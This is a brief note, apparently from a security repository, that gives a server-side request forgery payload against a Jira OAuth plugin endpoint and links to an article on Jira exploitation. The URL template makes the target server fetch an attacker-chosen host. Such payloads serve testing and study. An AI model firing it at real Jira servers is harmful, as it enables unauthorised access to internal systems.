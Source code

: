 ### Exploit server-side request forgery
```
https://<rhost>/plugins/servlet/oauth/users/icon-uri?consumerUri=https://<lhost>  
```

### References
https://thehackerish.com/jira-vulnerabilities-and-how-they-are-exploited-in-the-wild  

